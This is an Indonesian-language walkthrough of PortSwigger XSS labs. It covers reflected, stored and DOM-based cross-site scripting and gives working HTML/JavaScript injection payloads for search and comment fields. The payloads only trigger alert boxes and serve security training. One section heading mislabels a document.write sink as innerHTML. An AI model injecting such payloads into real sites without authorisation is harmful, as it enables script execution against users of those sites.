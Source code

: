 # Cross-site scripting (XSS)

## Reflected XSS into HTML context with nothing encoded
- Celah keamanan XSS berada di fitur pencarian (Search)

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/assets/xss%201.JPG)

- Masukkan payload berikut pada field pencarian lalu tekan tombol **Search**
```sh
<script>alert(1)</script>
```

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/assets/xss%202.JPG)

- Muncul pop up yang menjadi penanda kerentanan XSS

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/assets/xss%203.JPG)

- Selain payload diatas kita juga bisa menggunakan payload lain seperti dibawah ini
```sh
<img src=x onerror="alert(1)">
```

## Stored XSS into HTML context with nothing encoded
- Celah keamanan XSS berada di fitur komentar. Pilih salah satu postingan lalu tekan tombol **View post**

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/assets/xss%204.JPG)

- Scroll kebawah, lalu masukkan payload XSS pada field **Comment** kemudian lengkapi data pada field lainnya seperti berikut ini, Jika sudah tekan tombol **Post Comment**
```sh
<script>alert(1)</script>
```

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/assets/xss%205.JPG)

- Lalu klik link **Back to blog**

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/assets/xss%206.JPG)

- Muncul pop up yang menjadi penanda kerentanan XSS

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/assets/xss%207.JPG)

## DOM XSS in innerHTML sink using source location.search
- Celah keamanan XSS berada di fitur pencarian (Search)

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/assets/xss%208.JPG)

- Ketik 'test' pada field pencarian lalu tekan tombol **Search**

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/assets/xss%209.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/assets/xss%2010.JPG)

- Klik kanan kemudian pilih **Lihat Kode Sumber Halaman**

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/assets/xss%2011.jpg)

- Akan ditemukan function javascript sebagai berikut

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/assets/xss%2012.JPG)

- Masukkan payload berikut ini pada filed pencarian, untuk memunculkan popup alert
```sh
"><svg onload=alert(1)>
```

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/assets/xss%2013.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/assets/xss%2014.JPG)

- Selain payload diatas anda juga bisa menggunakan payload sebagai berikut
```sh
"><img src/onerror=alert(1)>
```

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/assets/xss%2015.JPG)

- Payload diatas akan membentuk nilai sebagai berikut, sehingga menyebabkan kerentanan XSS
```sh
document.write('<img src="/resources/images/tracker.gif?searchTerms="><svg onload=alert(1)>">');
```

## DOM XSS in innerHTML sink using source location.search
- Celah keamanan XSS berada di fitur pencarian (Search)

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/assets/xss%2016.JPG)

- Ketik 'test' pada field pencarian lalu tekan tombol **Search**

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/assets/xss%2017.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/assets/xss%2018.JPG)

- Klik kanan kemudian pilih **Lihat Kode Sumber Halaman**

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/assets/xss%2019.jpg)

- Akan ditemukan function javascript sebagai berikut

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/assets/xss%2020.JPG)

- Masukkan payload berikut ini pada filed pencarian, untuk memunculkan popup alert
```sh
<img src=1 onerror=alert(1)>
```

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/assets/xss%2021.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/assets/xss%2022.JPG)

- Selain payload diatas anda juga bisa menggunakan payload sebagai berikut
```sh
<iframe src="javascript:alert('xss')">
```

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/assets/xss%2023.JPG)

- Payload diatas akan menambahkan HTML pada element `span` seperti berikut
```sh
<span id="searchMessage"><img src="1" onerror="alert(1)"></span>
```
